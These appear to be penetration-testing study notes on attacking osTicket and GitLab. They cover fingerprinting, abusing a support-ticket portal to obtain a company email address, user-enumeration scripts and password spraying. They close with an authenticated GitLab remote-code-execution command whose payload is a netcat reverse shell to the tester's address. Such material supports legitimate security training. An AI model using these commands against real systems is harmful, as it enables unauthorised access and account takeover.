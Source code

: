 # Customer Service Mgmt & Configuration Management

In this section, we will discuss the following technologies:
- osTicket
- Gitlab

## osTicket

osTicket is an open-source support ticketing system. It can be compared to systems such as Jira, OTRS, Request Tracker, and Spiceworks. osTicket can integrate user inquiries from email, phone, and web-based forms into a web interface. osTicket is written in PHP and uses a MySQL backend. It can be installed on Windows or Linux.

**Footprinting/Discovery/Enumeration**

osTicket instance which also shows that a cookie named OSTSESSID was set when visiting the page. Also, most osTicket installs will showcase the osTicket logo with the phrase powered by in front of it in the page's footer. The footer may also contain the words Support Ticket System.

Here we can break down the main functions into the layers:

| 1. User input | 2. Processing | 3. Solution |
|---------------|---------------|-------------|

**User Input**

The core function of osTicket is to inform the company's employees about a problem so that a problem can be solved with the service or other components.For instance, from the osTicket documentation, we can see that only staff and users with administrator privileges can access the admin panel. So if our target company uses this or a similar application, we can cause a problem and "play dumb" and contact the company's staff.

**Processing**

As staff or administrators, they try to reproduce significant errors to find the core of the problem. Processing is finally done internally in an isolated environment that will have very similar settings to the systems in production. Suppose staff and administrators suspect that there is an internal bug that may be affecting the business. In that case, they will go into more detail to uncover possible code errors and address more significant issues.

**Solution**

Depending on the depth of the problem, it is very likely that other staff members from the technical departments will be involved in the email correspondence. This will give us new email addresses to use against the osTicket admin panel (in the worst case) and potential usernames with which we can perform OSINT on or try to apply to other company services.

**Attacking osTicket**

A search for osTicket on exploit-db shows various issues, including remote file inclusion, SQL injection, arbitrary file upload, XSS, etc. osTicket version 1.14.1 suffers from CVE-2020-24881 which was an SSRF vulnerability. If exploited, this type of flaw may be leveraged to gain access to internal resources or perform internal port scanning.


Suppose we find an exposed service such as a company's Slack server or GitLab, which requires a valid company email address to join. Many companies have a support email such as support@<domain>, and emails sent to this are available in online support portals that may range from Zendesk to an internal custom tool. Furthermore, a support portal may assign a temporary internal email address to a new ticket so users can quickly check its status. If we come across a customer support portal during our assessment and can submit a new ticket, we may be able to obtain a valid company email address.

Now, if we log in, we can see information about the ticket and ways to post a reply. If the company set up their helpdesk software to correlate ticket numbers with emails, then any email sent to the email we received when registering, 940288@<domain>, would show up here. With this setup, if we can find an external portal such as a Wiki, chat service (Slack, Mattermost, Rocket.chat), or a Git repository such as GitLab or Bitbucket, we may be able to use this email to register an account and the help desk support portal to receive a sign-up confirmation email.


## Gitlab

GitLab is a web-based Git-repository hosting tool that provides wiki capabilities, issue tracking, and continuous integration and deployment pipeline functionality. It is open-source and originally written in Ruby, but the current technology stack includes Go, Ruby on Rails, and Vue.js.

**Footprinting & Discovery**

The only way to footprint the GitLab version number in use is by browsing to the **/help** page when logged in. If the GitLab instance allows us to register an account, we can log in and browse to this page to confirm the version.

**Enumeration**

The first thing we should try is browsing to **/explore** and see if there are any public projects that may contain something interesting. Public projects can be interesting because we may be able to use them to find out more about the company's infrastructure, find production code that we can find a bug in after a code review, hard-coded credentials, a script or configuration file containing credentials, or other secrets such as an SSH private key or API key.

We can also use the registration form to enumerate valid users

We can check if the application allows us to register an account and, if so, we can go back to /explorer to see if we already have access to more projects while logged in.

### User Enumeration

````
$ ./gitlab_userenum.sh --url http://<domain>:8081/ --userlist users.txt
$ python3 gitlab_userenum.py --url URL --wordlist WORDLIST
````
If we successfully pulled down a large list of users, we could attempt a controlled password spraying attack with weak, common passwords such as Welcome1 or Password123, etc., or try to re-use credentials gathered from other sources such as password dumps from public data breaches.

### Code Execution

**Authenticated Remote Code Execution**

GitLab Community Edition version 13.10.2 and lower suffered from an authenticated remote code execution vulnerability due to an issue with ExifTool handling metadata in uploaded image files. This issue was fixed by GitLab rather quickly, but some companies are still likely using a vulnerable version.

````
$ python3 gitlab_rce_auth.py -t http://<domain>:8081 -u <user> -p <password> -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <Our_IP> <Our_Port> >/tmp/f '
````

